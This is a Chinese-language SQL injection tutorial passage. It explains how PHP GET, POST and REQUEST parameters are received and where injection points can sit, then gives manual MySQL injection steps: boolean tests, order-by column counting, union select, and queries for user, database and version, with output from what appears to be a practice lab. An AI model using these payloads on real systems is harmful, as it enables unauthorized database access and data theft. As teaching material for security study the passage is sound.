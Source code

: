    ​			在post情况下get的值只要在网址后面就能接收

   ​			get，post接收单个

   ​			**request 全部接收，如果对方采用request的接收方法，就不要考虑用何种方式去提交，因为get，post都可以，如果对方是单一接收方式，那么注入的时候就要按照他的方法去注入**

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22078880/1627874896946-2e21f4ea-a1d9-4e09-9a24-12bef165f2e5.png?x-oss-process=image%2Fresize%2Cw_875%2Climit_0)

**如图：get方式提交请求将参数给post也能提交**



**以post请求去测试网页，网页界面是一样的，那么这两个参数均以post方式去提交**

![img](https://cdn.nlark.com/yuque/0/2021/png/1272951/1621510590944-8a0b6fa9-2e3b-4c95-a0b6-c5ffd0552172.png?x-oss-process=image%2Fresize%2Cw_1271%2Fresize%2Cw_847%2Climit_0)

![img](https://cdn.nlark.com/yuque/0/2021/png/1272951/1621511550800-9fcd70be-f289-4a3c-a419-c25684420379.png?x-oss-process=image%2Fresize%2Cw_1270%2Fresize%2Cw_875%2Climit_0&date=1627702320337)

**能用get方式提交也能使用post方式提交**





**$_SERVER是PHP里内置变量，全局变量，PHP写脚本时用它来获取系统的值，在数据包的某一个地方可以进行注入**



![img](https://cdn.nlark.com/yuque/0/2021/png/1272951/1621511791809-a86bf944-8d69-4a37-a715-8065839417b0.png?x-oss-process=image%2Fresize%2Cw_502%2Climit_0)

[超链接](https://blog.csdn.net/demon0313/article/details/45566527)

------





# 各数据库手工注入

## MySQL

- 找到注入点   and 1=1 and 1=2 测试报错

- order by  #到5的时候就报错，获取字段总数为4

- id = 0 (不是1就行，强行报错) union select 1,2,3,4 #联合查询，2和3可以显示信息

- 获取数据库信息

  user() ===>root      /查看数据库用户

  database() ==>mozhe_Discuz_StormGroup    /查看数据库名称

  version() ==>5.7.22-ubantu0.16.04    / 查看数据库版本

- 获取数据表

  table_name    /表名

  information_schema.tables  /   生产信息表
